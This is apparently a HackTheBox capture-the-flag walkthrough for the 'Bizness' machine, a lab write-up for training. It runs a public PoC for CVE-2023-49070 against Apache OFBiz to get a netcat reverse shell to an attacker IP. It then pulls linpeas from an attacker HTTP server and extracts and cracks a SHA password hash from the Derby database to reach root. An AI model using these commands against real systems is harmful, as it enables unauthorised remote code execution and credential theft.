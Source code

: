 # Bizness
<br/>

## Intro
Welcome to the Bizness challenge from HackTheBox Walkthrough, here is the link to the [room](https://app.hackthebox.com/machines/Bizness).
In this challenge we are gonna practice with some web application RCE and than hash cracking to escalate our privileges. 

To interact with the machine connect via OpenVPN using the "lab" config profile.

Whenever you feel ready press "Join the Machine"

<br/>
<br/>

## The Challenge
Before starting we can add the IP address to the hots file
```bash
sudo nano /etc/hosts
```
```
MACHINE-IP  bizness.htb
```


Let's do with a port scan using nmap
```bash
nmap -sV MACHINE_IP
```
Here is the scan report:
```
PORT    STATE SERVICE  REASON         VERSION
22/tcp  open  ssh      syn-ack ttl 63 OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
80/tcp  open  http     syn-ack ttl 63 nginx 1.18.0
443/tcp open  ssl/http syn-ack ttl 63 nginx 1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We can see there is a webserver, let's visit the page:
```
http://bizness.htb
```

Looking around we can find "Powered by **Apache OFBiz**", so i searched if there are any known vulnerabilities, but we still need to find out which version is it running.
I have decided to do a directory scan, maybe in other pages we can see more information about its implementation.
```bash
dirsearch -u https://bizness.htb/ 
```

I have found this `/solr/control/checkLogin/`, navigating to it we can see a login page and on the bottom right there is the version of Apache OFBIz which is 18.12.

Now we can better target our search and i came up to a RCE vulnerability known as CVE-2023-49070.
On GitHub there is PoC that we can download:
```bash
git clone https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass.git
```

Once you have cloned it navigate inside the directory and run
```bash
python3 exploit.py --url https://bizness.htb --cmd 'nc -e /bin/bash YOUR-IP PORT'
```

On your machine you need to have a listener enabled:
```bash
nc -lvnp PORT
```

And you will have the shell, now we can grab the first flag:

Firstly let's upgrade the shell:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Than put the shell in background with `CTRL+Z`, write
```bash
stty raw -echo
```

Foreground the reverse-shell
```bash
fg
```

Reset the shell
```
reset
```
```bash
export SHELL=bash
```
```bash
export TERM=xterm-256color
```

Now you should have a fully interactive shell.

```bash
cat /home/ofbiz/user.txt
```
--> REDACTED

<br/>

### Privilege Escalation
It is time to escalate our privileges to root to read the last flag.

I downloaded linpeas script file to help me
```bash
cp /usr/share/peass/linpeas/linpeas.sh .
```

We need to transfer it to the target:
```bash
python3 -m http.server
```

```bash
wget http://ATTACKER-IP:8000/linpeas.sh
```
make the script executable
```bash
chmod +x linpeas.sh
```
now run it
```bash
./linpeas.sh > report.txt
```

One interesting path was continously appearing: /opt/ofbiz/runtime/data/derby/

Now we can go and take a look at the database directory that linpeas had discovered 
```bash
cd /opt/ofbiz/runtime/data/derby/ofbiz/seg0
```

In this directory i did some tries searching for keywords like this:
```bash
grep -r -l "Password" *
```

Until i found this file containing what i was looking for:
```bash
strings c54d0.dat
```

--> currentPassword=`$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I`
Looking at this we can understand that the hash type is SHA, `d` is the salt and the rest are the hashed bytes.

Before throwing it into hashcat we have to apply some changes, in fact the hash had undergone some modifications (as we can find in the files at `/opt/ofbiz/framework/base/src/main/java/org/apache/ofbiz/base/crypto`)
1. Substitute `_` with `/` and `-` with `+`
2. Encode the result in hex
3. Remove the spaces
4. Add the salt `:d`

We can do all the above steps using CyberChef online or by creating a script, you have the choice.

Now we can create a file containing the hash
```bash
echo "HASH:d" > hash.txt
```

At this point we can run hashcat
```bash
hashcat -a 0 -m 120 final_hash.txt /usr/share/wordlist/rockyou.txt
```
And in a short time we get the root password: monkeybizness, now we can login ad get the root flag

```bash
su root
```

```bash
cat /root/root.txt
```
--> REDACTED

<br/>

Congratulations, we are now in Bizness! I hope you had fun and learned something new. <br>
If you wanna see more write ups you can check the WriteUps Directory in this GitHub repo. <br>
Catch you in the next CTF 😃 <br>
